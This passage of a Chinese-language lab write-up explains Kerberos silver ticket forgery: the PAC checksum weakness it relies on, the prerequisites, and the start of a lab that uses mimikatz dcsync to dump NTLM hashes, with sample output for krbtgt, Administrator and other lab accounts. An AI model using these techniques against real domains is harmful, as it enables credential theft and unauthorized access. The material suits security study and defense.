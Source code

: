 6. 再通过网络访问域控文件，成功获取
    
    ![image.png](image%2033.png)
    

## 白银票据

白银票据就是伪造ST票据

### 原理

在kerberos认证的第三步，即AP-REQ~AP-REP，Client带着ST以及KDC使用Service Session key加密的Authenticator（指Serivce Session Key加密的时间戳）发送给服务端，服务器接收到Client的请求后，使用服务密钥解开ST，然后取出Service Session key解密Authenticator，然后检验对方身份，以及权限等，验证成功就让 Client 访问server上的指定服务了

在白银票据攻击中，攻击者重点伪造的是 `PAC_SERVER_CHECKSUM`，因为它是服务端验证 PAC 的关键，服务端通常不会验证 `PAC_PRIVSVR_CHECKSUM`，因为这个字段主要是供 KDC 使用

白银票据成功的前提就是检查PAC签名时不检查`PAC_PRIVSVR_CHECKSUM`

### 所需条件

- 域名
- 域SID
- 目标服务器名
- 可利用的服务
- 服务账号的NTML HASH
- 需要伪造的用户名

### 实验 CIFS服务 以及 LDAP

1. 目标主机 NTML HASH 或者AES256的获取
    - 如果有域中的管理员账号可以使用`dcsync`读取
        
        ```python
        mimikatz # lsadump::dcsync /domain:god.org /all /csv
        [DC] 'god.org' will be the domain
        [DC] 'owa.god.org' will be the DC server
        [DC] Exporting domain 'god.org'
        502	krbtgt	58e91a5ac358d86513ab224312314061	514
        1106	ligang	1e3d22f88dfd250c9312d21686c60f41	512
        1107	DEV1$	bed18e5b9d13bb384a3041a10d43c01b	4128
        1104	ROOT-TVI862UBEH$	6bbf3561300bef0e1f8e3fadec53500e	4096
        1001	OWA$	5f7687a3b909b00386ca167919e883d1	532480
        1000	liukaifeng01	f98564f9c7fab916678466075899f6e1	544
        500	Administrator	f98564f9c7fab916678466075899f6e1	512
        1105	STU1$	b9116b875737a6fc3dcc996369db2505	4128
        1108	a	685c5f49ed0f0821ca58781a0b902f2e	66048
        ```
        